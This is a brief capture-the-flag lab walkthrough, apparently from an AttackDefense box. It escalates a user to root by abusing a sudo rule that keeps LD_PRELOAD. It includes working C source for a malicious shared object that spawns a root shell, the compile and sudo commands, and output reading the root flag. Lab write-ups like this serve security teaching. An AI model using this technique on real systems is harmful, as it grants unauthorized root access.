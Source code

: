 ## privesc abusing Sudo (LD_PRELOAD)

> **noobuser@attackdefense:~$** id
    uid=999(noobuser) gid=999(noobuser) groups=999(noobuser)
> 
> 
> **noobuser@attackdefense:~$** sudo -l
    Matching Defaults entries for noobuser on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, ***env_keep+=LD_PRELOAD***
User noobuser may run the following commands on attackdefense:
(root) NOPASSWD: ***/usr/sbin/apache2***

then write C program in the writtable directory such as /var/tmp , /dev/shm and /tmp directory and save it to LD_PRELOAD_privesc.c

> #include <stdio.h>
> #include <sys/types.h>
> #include <stdlib.h> 
> void _init() { 
> unsetenv("LD_PRELOAD"); 
> setgid(0); 
> setuid(0); 
> system("/bin/bash"); 
> }

then compile the file and generate the object file

    noobuser@attackdefense:~$ /usr/bin/gcc -fPIC -shared -o LD_PRELOAD_privesc.so LD_PRELOAD_privesc.c -nostartfiles
    noobuser@attackdefense:~$ sudo LD_PRELOAD=/tmp/LD_PRELOAD_privesc.so /usr/sbin/apache2
    root@attackdefense:/tmp# id
    uid=0(root) gid=0(root) groups=0(root)
    root@attackdefense:/tmp# find /root/ type f -name flag
    /root/flag
    find: 'type': No such file or directory
    find: 'f': No such file or directory
    root@attackdefense:/tmp# cat /root/flag
    368b21993<snip>1ac697cc83
    root@attackdefense:/tmp# yeayy


